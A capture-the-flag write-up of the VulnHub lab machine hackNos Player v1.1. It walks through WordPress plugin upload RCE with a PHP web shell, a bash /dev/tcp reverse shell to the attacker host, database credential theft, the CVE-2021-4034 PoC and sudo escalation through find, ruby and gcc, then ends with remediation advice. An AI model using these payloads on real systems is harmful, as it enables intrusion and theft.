


# hackNos Player v1.1

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [hackNos: Player v1.1](https://www.vulnhub.com/entry/hacknos-player-v11,459/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Difficulty: Intermediate
Learning: Web Application | Enumerate | Good Enumeration | Privilege Escalation
Overview:
Tested: VirtualBox/VMWare
Virtual Machine: - Format: Virtual Machine Virtualbox OVA
Networking: - DHCP Service: Enabled
twitter @rahul_gehlaut*


## Summary
hackNos: Player v1.1 starts with an `Apache` default page, but it contains the custom webroot name `/g@web`, then I identify a `WordPress` site with version `5.3.14`, and the domain `www.hackNos.com`, when I use the`WPScan`  command, it identifies the  `wp-support-plus-responsive-ticket-system` plugin, and with a probable version `7.1.3`, when I test the [RCE PoC](https://wpscan.com/vulnerability/1527b75a-362d-47eb-85f5-47763c75b0d1) I find in the `wpscan` report, and I perform a reverse shell and I get the `www-data` user shell. I can connect to the `MariaDB` database with the credentials I find in the `wp-config.php` file, and the table `wp_usermeta` has a plaintext password that works with the `security` user `ssh` connection. With the `security` user shell I identify that it can run the `/usr/bin/find`  command with the `hacknos-boat` user, and after using the `-exec` switch I can spawn a shell with the `hacknos-boat` user. This user is able to run the `/usr/bin/ruby`  command as the `hunter` user. After following the instructions of the [ `ruby`command in `gtfobins`](https://gtfobins.github.io/gtfobins/ruby/) I can spawn the `hunter` shell and get the user flag. The `hunter` user can run the `/usr/bin/gcc` command as `root`, then I follow the instructions of the  [`gcc` command in gtfobins](https://gtfobins.github.io/gtfobins/gcc/) and I spawn the `root` shell, and get the `root` flag.

>**Note**: Initially, when I get the reverse shell of the `www-data` user, I use the `LinPEAS` tool and identify the `CVE-2021-4034`, and I find a [PoC in a GitHub repository](https://github.com/hackingyseguridad/CVE-2021-4034), then I could bypass all lateral movements and get the `root` shell, but this machine was released before the publication of this `CVE`.

1. CWE-94: Improper Control of Generation of Code 'Code Injection'
2. CWE-256: Plaintext Storage of a Password
3. CWE-269: Improper Privilege Management
4. CWE-266: Incorrect Privilege Assignment
5. CWE-284: Improper Access Control

#VirtualBox #Nmap  #HashCat #Python #Feroxbuster #LinPEAS #gtfobins #WebShell #MySQL #WordPress #WPScan #Hydra #PHP #MariaDB #GCC #CMS #find #ruby #Polkit

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.51`.


And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-sca 192.168.2.51
...SNIPPED...
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
...SNIPPED...
```
Then I identify 2 open ports, and the `Apache httpd 2.4.38` service runs on `80` TCP, and the `MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1` service runs on `3306` TCP, and it runs on `Debian`.

## Normal use case
Given I access `http://192.168.2.51`, then I can see:



And that is the default index page of the `Apache` service.

## Dynamic detection
`WP Support Plus Responsive Ticket System < 8.0.8` - Remote Code Execution.

Given I can access `http://192.168.2.51`, and I saw the default `Apache` index page, but I can not find anything useful in `HTTP`, and I also do not have any credentials to use the `MySQL` database, then I decided to perform a dictionary attack on the `HTTP` service. When I run the `feroxbuster` command:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> http://192.168.2.51 -x php,inc.php,txt,html,md,jpg,xml,xls,sh,sql
```
Then it can not find anything, when I run it again, but with a bigger list of Seclist, then it does not find anything useful, and I was stuck just at the start, and I decided to leave the machine, and after several days, then I decided to take it back. When I read the `Apache` index page. Then I notice that there is the name webroot:


When I use the `whatweb` command:
```shell
$ whatweb 'http://192.168.2.51/g@web'
...SNIPPED...
http://192.168.2.51/g@web/ [200 OK] Apache[2.4.38], Bootstrap,
Country[RESERVED][ZZ], Email[ajax-loader@2x.gif,wordpress@example.com],
HTML5, HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.2.51],
JQuery, MetaGenerator[WordPress 5.3.14], PoweredBy[WordPress],
Script[text/javascript], Title[www.hackNos.com &#8211; Rahul Gehlaut],
UncommonHeaders[link], WordPress[5.3.14]
```
Then it is a `WordPress` site with version `5.3.14`, and I can see the domain `www.hackNos.com`, and I add it to my `/etc/hosts` file:
```shell
$ echo "192.168.2.51 www.hackNos.com hackNox.com" | sudo tee -a /etc/hosts
```
When I use the `wpscan` command, and I use the `API token` that I got after registering on [WPScan site](https://wpscan.com), and I use a list of Seclists:
```shell
$ wpscan --rua -e ap,at,tt,cb,dbe,u,m --url \
> 'http://www.hacknos.com/g@web/' [--plugins-detection aggressive] \
>--api-token $WPSCAN_API --passwords probable-v2-top12000.txt1
```
Then it finds that registration is enabled, and that the upload directory has a listing enabled, and the `wp-support-plus-responsive-ticket-system` plugin, and with version `7.1.3` (80% confidence), and it has some known vulnerabilities:


And it also finds the user `wp-local`, and the RCE of the plugin catches my attention. When I check the link to the `WPscan` site, then I can see that [there is a PoC](https://wpscan.com/vulnerability/1527b75a-362d-47eb-85f5-47763c75b0d1):



When I test the PoC, and I store a web shell in a file called `ws.phtml`:
```shell
$ echo "<?php system(\$_GET['cmd']); ?>" > ws.phtml
```
And I use the `curl` command:
```shell
curl 'http://www.hacknos.com/g@web/wp-admin/admin-ajax.php' \
> -F "0=@$(pwd)/ws.phtml" \
> -F "action=wpsp_upload_attachment" -H 'multipart/form-data'
{"isError":"0","errorMessege":"done","attachment_id":"1"}
```
When I check the `/g@web/wp-content/uploads/`, then I can see:


And there is the file I uploaded, when I use the `curl` command:
```shell
$ curl "http://www.hacknos.com/g@web/wp-content/uploads/wpsp
> 1677022274_ws.phtml?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I confirm the RCE, and the `WP Support Plus Responsive Ticket System` is vulnerable.

## Exploitation
`CVE-2021-4034`, plain text password, sudo privileges to escalate users.

Given I can access `http://192.168.2.51g@web`, and it runs a `WordPress` site, and it uses the `WP Support Plus Responsive Ticket System` plugin, and I confirm an RCE, then I can perform a reverse shell.

When I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I send a reverse shell payload:
```shell
$ curl "http://www.hacknos.com/g@web/wp-content/uploads/wpsp/
> 1677022274_ws.phtml?cmd=
> bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/192.168.2.31/1234%200>%261'"
```
Then it works:


And I start exploring the server. When I check the `webroot`, then I find the `MySQL` credentials in the `wp-config.php` file:
```php
...SNIPPED...
define( 'DB_NAME', 'hackNos' );
...
define( 'DB_USER', 'wp' );
...
define( 'DB_PASSWORD', 'g@web-password' );
...
```
When I try to connect to the `MySQL` database, and first I need to upgrade my shell with the following command:
```shell
$ www-data@hacknos:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```
And I can use the `mysql` command:
```shell
$ www-data@hacknos:/$ mysql -u wp -p'g@web-password'
```
Then I can explore the `MySQL` databases, when I check the `wp_users` table, then I can find the `admin` password hash:


When I store the hash in a file called `wp_local.hash`, and I try to crack it with the `hashcat` command, and the Rockyou list:
```shell
$ hashcat -a 0 -m 400 wp_local.hash rockyou.txt --force
```
Then it does not work, when I keep exploring the server, and I try to find writable or executable files, and I look for suspicious processes, then I can not find anything useful, and I was stuck, and I decided to check the `LinPEAS` tool. When I download it:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/
> linpeas.sh"
```
And I open an `HTTP` server with `Python3`:
```shell
$ python3 -m http.server 8000
```
And I download it to the target server:
```shell
$ www-data@hacknos:/tmp$ wget 192.168.2.31:8000/linpeas.sh
```
And I give it executable permissions:
```shell
$ www-data@hacknos:/tmp$ chmod +x linpeas.sh
```
And I run it:
```shell
$ www-data@hacknos:/tmp$ ./linpeas.sh
```
Then I can see a potential CVE:


## Privilege escalation

When I google `CVE-2021-4034`, then I find a [GitHub repository](https://github.com/hackingyseguridad/CVE-2021-4034), and it contains a PoC. When I download it:
```shell
$ wget "https://raw.githubusercontent.com/hackingyseguridad/
> CVE-2021-4034/main/CVE-2021-4034.sh"
```
And I follow the same steps that I did, when I sent the `linpeas.sh` file to the destination machine, and I run the `CVE-2021-4034.sh` file:
```shell
$ www-data@hacknos:/tmp$ ./CVE-2021-4034.sh
```
Then it works, and I get the root shell, and I get the root flag:


## Designed PATH

But I can be sure that this is not the path that de creator designed, and it is that the vulnerability was discovered after the machine, but I want to know what is the original path to root the machine, and I start exploring the server with the `root` user. When I check the sudoers file:
```shell
# cat /etc/sudoers
...SNIPPED...
# User privilege specification
root ALL=(ALL:ALL) ALL
hunter ALL=(ALL) NOPASSWD: /usr/bin/gcc
security ALL=(hacknos-boat) NOPASSWD: /usr/bin/find
hackNos-boat ALL=(hunter) NOPASSWD: /usr/bin/ruby
...SNIPPED...
```
Then I can see a pattern, and if I start with the `security` user, then I could use the `find` command to escalate to the user `hackos-boat`, and after that, I could use the `ruby` command to get the `hunter`'s shell, and after that, I could use the `gcc` command to get the `root`'s shell, and I want to do it to practice how it works, but first I need to figure out how to get the user's `security` shell, and I try to find files or data with the `find` and the `grep` command, but nothing interesting was found, and at this point, I was stuck again
But I think the password is probably somewhere, and that is because there is no file, service, and neither process can be related to one of the users of the server, and I decided to recheck the `WordPress` site again. When I check each table in `MySQL` database `hackNos`, then I find a text in the `wp_usermeta` table:


When I try to use the string `hackNos@9012!!` with all users, then it works with the user `security`:


### Lateral movement

And now, I can run the `find` command with the user `hacknos-boat`. When I run the `find` command with the `-exec` option to spawn a shell:
```shell
$ security@hacknos:~$ sudo -u 'hackNos-boat' /usr/bin/find ./ -name '.*' \
> -exec /bin/bash \;
```
Then it works, I get the `hackNos-boat` shell:


### Lateral movement 2

And I see again that I can use the `ruby` command with the user `hunter`, when I search for the [ `ruby`command in `gtfobins`](https://gtfobins.github.io/gtfobins/ruby/), then I can see the way I can spawn a shell:


When I run the `ruby` command:
```shell
$ hackNos-boat@hacknos:/$ sudo -u hunter /usr/bin/ruby \
> -e 'exec "/bin/bash"'
```
Then it works, I get the `hunter` shell, and I get the `user` flag:


### Privilege escalation
And I can see I can run the `gcc` command with `root` privileges, when I search for the [`gcc` command in gtfobins](https://gtfobins.github.io/gtfobins/gcc/), then I can see the way I can spawn a shell


When I use the `gcc` command:
```
$ hunter@hacknos:~$ sudo /usr/bin/gcc -wrapper /bin/bash,-s .
```
Then it works, I get the `root` shell, and I get the `root` flag again:


## Remediation
Given I find a `WordPress` site, and it uses the `WP Support Plus Responsive Ticket System` plugin, but it has a version lower than `8.0.8`, and it allows RCE, and the server is vulnerable to `Polkit` privilege escalation `CVE-2021-4034`, and I can escalate to the `root` user with that, but it also has a plain text password in the `WordPress` database, and the users have `sudo` privileges which allow scaling, then they should update the `WordPress` plugin to its latest version, and to fix the `CVE-2021-4034`, update the `Polkit` package, and properly store passwords, and check the `sudo` privileges of all users, then with that, it may not be possible to get the root's shell.